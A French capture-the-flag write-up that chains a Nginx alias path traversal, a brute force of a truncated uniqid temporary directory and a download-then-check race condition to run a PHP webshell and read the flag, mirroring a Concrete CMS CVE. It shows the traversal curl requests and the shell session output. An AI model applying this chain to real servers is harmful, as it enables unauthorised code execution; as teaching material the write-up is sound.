

# Writeup Uniqx

Une organisation qui crée des outils pour protéger la vie privée et l'anonymat... mais qui ne partage pas son code source.

Essayons de découvrir par nous même la sécurité de leur projet.



## Analyse du fichier de configuration Nginx

Même si le groupe n'a pas partagé le code source, ils ont tout de même fourni quelques éléments.

La structure de leur projet (`tree`) ainsi que leur configuration nginx (`template nginx`):

```
$ / > tree
(✿˵•́ ᴗ •̀˵)
┌── includes/ 
│   └── ... # not open sourced yet
│
├── public/
│   ├── css/
│   ├── js/
│   ├── tmp/
│   │   └── ... # temporary files for our modules
│   ├── favicon.ico
│   └── index.php
│
├── security/
│   └── ... # if you hack us, send us the proof listed here        
│
├── templates/
│   └── nginx.conf
│ 
├── composer.json
└── composer.lock

$ / > template nginx
(ﾉ◕ヮ◕)ﾉ*:･ﾟ✧ `nginx.conf` sent.

```

_nginx.conf_
```conf
server {
    index index.php index.html;
    error_log  /var/log/nginx/error.log;
    access_log /var/log/nginx/access.log;
    root /var/www/html/;

    # ...

    location /templates {
        error_page 404 /404;
        alias /var/www/html/templates/;
    }

    location / {
        root /var/www/html/public;
        try_files $uri /index.php$is_args$args;

        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_split_path_info ^(.+\.php)(/.+)$;
            fastcgi_pass php-fpm:9000;
            fastcgi_index index.php;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
            fastcgi_param PATH_INFO $fastcgi_path_info;
        }
    }
}
```

_Je vous recommande fortement les travaux d'Orange Tsai, en particulier la partie "Nginx off-by-slash fail" de la conférence [Take Your Path Normalization Off and Pop 0days Out](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)_

Cette configuration Nginx est faillible au Path Traversal. Il est possible de récupérer des fichiers et surtout le code source PHP.

```console
pun@ctf:~$ curl 'http://127.0.0.1:40001/templates../public/index.php'
<?php

require_once __DIR__ . '/../vendor/autoload.php';

?>

pun@ctf:~$ curl 'http://127.0.0.1:40001/templates../composer.json'
{
    "require": {
        "moxxie/moxrouter": "^0.2.0"
    },
    "autoload": {
        "files": [
            "includes/config.php",
            "includes/classes/Utils.php",
            "includes/modules/Sha1img.php",
            "includes/routes.php"
        ]
    }
}
```

Avec les infos présentes dans le fichier `composer.json`, on peut récupérer les fichiers PHP qui nous intéressent.

```
/templates../includes/config.php
/templates../classes/Utils.php
/templates../includes/modules/Sha1img.php
```

## Analyse du module Sha1img.php

Le seul module actuellement disponible sur ce projet est `sha1img`. Il retourne l'empreinte d'une image qu'on passe en paramètre (URL).

```
$ / > sha1img https://via.placeholder.com/350x150.png
Getting content from URL.................................................
b77609a57dd02893f3267d111e1cfa4959bcf556 (generated in 1.458 seconds).
```

Inspectons le code source de `includes/modules/Sha1img.php` (le code inutile a été commenté):
```php
<?php

class Sha1img {

    public function __construct(string $url) {
        $this->_url = $url;
        $this->_directory = Utils::createRandomDirectory();
        $this->_file = '';
    }

    protected function _downloadFile() : void {

        $url_info = parse_url($this->_url);

        if (!in_array(@$url_info['scheme'], ['http', 'https']))
            throw new Exception("Only 'http://' and 'https://' schemes are allowed in the URL.");

        $filename = @basename($url_info['path']);
        // ...
        $curl_response = @curl_exec($curl_handler);
        $curl_info = curl_getinfo($curl_handler);
        // ...
        $this->_file = "{$this->_directory}/$filename";
        
    }

    protected function _verifyExtension() : void {
        $file_parts = pathinfo($this->_file);

        $allowed_extensions = [ 'jpg', 'gif', 'png' ];

        if (!in_array($file_parts['extension'], $allowed_extensions))
            throw new Exception("File extension '{$file_parts['extension']}' not allowed.");
    }
    
    
    public function getSignature() : string {

        $this->_downloadFile();
        $this->_verifyExtension();
        // ...
        $sig = sha1_file($this->_file);
        return $sig;
    }

    public function __destruct() {
        if (is_dir($this->_directory)) { // Delete our random folder when the job is done
            @unlink($this->_file);
            @rmdir($this->_directory);
        }
    }
}
```

Voici les étapes qui permettent de générer la signature d'une image :
1. Un dossier temporaire est créé depuis le constructeur en appelant la méthode statique `Utils::createRandomDirectory()`
2. Le fichier est téléchargé dans le dossier temporaire
3. L'extension du fichier est vérifié (gif, jpg et png autorisés)
4. Un hash du fichier est généré
4. Le fichier téléchargé puis le dossier temporaire sont supprimés dans le destructeur.

Regardons comment est créé le dossier temporaire dans le fichier `include/classes/Utils.php`:
```php
<?php

class Utils {

    public static function createRandomDirectory() : string {
        $root_tmp = defined('DOWNLOAD_FOLDER') ? DOWNLOAD_FOLDER : '/tmp';
        $seed_len = defined('SEED_LENGTH') ? SEED_LENGTH : null;

        $rand_dir = "random-" . substr(string: uniqid(), offset: 0, length: $seed_len);
        $dirpath = "$root_tmp/$rand_dir";

        if (!mkdir($dirpath))
            throw new Exception('Could not make temporary folder');
        
        return $dirpath;
    }

}
```

Fichier `includes\config.php`
```php
<?php

define('ROOT_FOLDER',    __DIR__ . '/..');

define('PUBLIC_FOLDER',     ROOT_FOLDER . '/public');
define('DOWNLOAD_FOLDER',   PUBLIC_FOLDER . '/tmp/downloads');

define('SEED_LENGTH',   11); // This is my lucky number
```

D'après le code précédent, le dossier temporaire est créé dans `public/tmp/downloads/random-xyz` où `xyz` sont les 11 premiers caractères du résultat de la fonction `uniqid`.

Voici un diagramme simplifié du fonctionnement de module sha1img :

```
+--------------+      +--------------+       +-------------+       +-----------+       +-------------+
| mkdir folder |----->|   Download   |------>|    Check    |------>|    SHA1   |------>| rm file and |
|  random-...  |  A   |     file     |   B   |  extension  |   C   |    file   |   D   |    folder   |
+--------------+      +--------------+       +-------------+       +-----------+       +-------------+
       (1)                   (2)                    (3)                 (4)                   (5)
```

# Bruteforce du dossier temporaire

La [documentation PHP d'uniqid](https://www.php.net/manual/fr/function.uniqid.php) explique que cette fonction :

> Génère un identifiant basé sur l'heure actuelle avec une précision à la microseconde ...
>
> ... la chaîne retournée fera 13 caractères
>
> Attention - Cette fonction ne génère pas de valeurs cryptographiquement sûres...

Les développeurs du "Transparent Group", en choississant uniquement les 11 premiers caractères, diminuent la précision. Techniquement parlant, cela veut dire que le dossier est plus facilement devinable car moins de valeurs sont à bruteforcer.

```¢onsole
pun@ctf:~$ php -a
php > $a = uniqid(); sleep(1); $b = uniqid();
php > echo hexdec("0x$b") - hexdec("0x$a");
1061544
php >
php > $a = substr(uniqid(), 0, 11); sleep(1); $b = substr(uniqid(), 0, 11);
php > echo hexdec("0x$b") - hexdec("0x$a");
4098
```

Dans l'exemple ci-dessus, on voit que deux appels d'`uniqid` à 1 seconde d'intervalle génèrent seulement ~4096 possibilités lorsqu'on utilise les 11 premiers caractères.

Comme l'attaquant contrôle l'URL envoyé en paramètre, il peut créer un serveur qui temporise X secondes avant de laisser le fichier être récupéré par l'application. Durant ces X secondes, il peut bruteforcer le nom du dossier où va être téléchargé le fichier.

L'option `CURLOPT_TIMEOUT` en PHP n'a pas de valeur par défaut, cela veut dire que l'appel des fonctions curl peut durer indéfiniment. Mais dans les faits, un timeout est bien présent car la valeur de [`max_execution_time`](https://www.php.net/manual/en/info.configuration.php#ini.max-execution-time) est configuré par défaut à 30 secondes.

**L'attaquant a donc au maximum 30 secondes pour trouver le nom du dossier temporaire**.

## Upload d'un fichier PHP

Dans la méthode `getSignature`, le fichier est d'abord téléchargé PUIS son extension est vérifié ! Cela veut dire que même si seuls les extensions d'images sont autorisées, un fichier avec une extension `.php` sera tout de même présent sur le disque jusqu'à sa suppression dans le destructeur.

```php
    public function getSignature() : string {

        $this->_downloadFile();
        $this->_verifyExtension();
        // ...
        $sig = sha1_file($this->_file);
        return $sig;
    }
```

On est face à une **Race Condition** où il va falloir réussir à accéder à notre fichier avant qu'il ne soit supprimé du serveur. Pour cela, il y a plusieurs façons de maximiser ses chances :
- multiplier le nombre de requêtes concurrentes pour accéder au fichier
- augmenter la taille du fichier à télécharger pour ralentir les opérations sur le serveur
- try and retry =)

## Exploitation

En résumé, pour obtenir une RCE il faut :

A. Créer un web serveur qui temporise X secondes l'accès au fichier

B. On lance notre bruteforce qui va :

    1. Incrémenter progressivement la valeur de `uniqid` jusqu'à trouver le dossier temporaire (code HTTP 404 vs 403)

    2. Une fois le dossier trouvé, essayer d'accéder à notre webshell php en boucle qui va dupliquer notre webshell avant qu'il ne soit supprimé.

Et si ça ne marche pas, on réessaie !

Dans un premier terminal, on démarre un serveur php où se trouve le fichier pwn.php:

```console
pun@ctf:~$ php -S 0.0.0.0:8888
[Wed Aug 28 21:29:44 2024] PHP 8.3.6 Development Server (http://0.0.0.0:8888) started

```

Dans un second terminal, on lance l'exploit :
```console
pun@ctf:~$ php pwn.php
Searching for temporary directory...
  [Dir] '/tmp/downloads/random-66cf7af30ed/' (in 51 requests)
(semi-interactive shell) $> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

(semi-interactive shell) $> pwd
/var/www/html/public/tmp/downloads/random-66cf7af30ed

(semi-interactive shell) $> grep -R brb /var/www/html/
/var/www/html/security/proof/flag.txt:brb{DotDot_Nginx_And_uniqid_R4ce_Cond1t1on}
```

**Note** : Il y a plusieurs éléments qui peuvent rendre l'exploitation plus diffficle :
- stabilité et vitesse réseau
- clock drift : si le serveur ou l'attaquant ont des horloges non synchronisés et que la différence est trop importante, il faudrait décaler les valeurs de début d'uniqid pour augmenter ses chances. L'entête `X-REQUEST-TIMESTAMP` retourné permet d'ajuster ces valeurs.
- script d'exploitation mono-thread

## References

Ce challenge est une reproduction proche de vulnérabilités découvertes dans _Concrete CMS_.

- [CVE-2021-22968](https://nvd.nist.gov/vuln/detail/CVE-2021-22968)

> The external file upload feature stages files in the public directory even if they have disallowed file extensions. They are stored in a directory with a random name, but it's possible to stall the uploads and brute force the directory name.

- [A bypass of adding remote files in concrete5 FIlemanager leads to remote code execution](https://hackerone.com/reports/1350444)

- [Multiple Concrete CMS vulnerabilities ( part1 – RCE )](https://fortbridge.co.uk/research/multiple-vulnerabilities-in-concrete-cms-part1-rce/)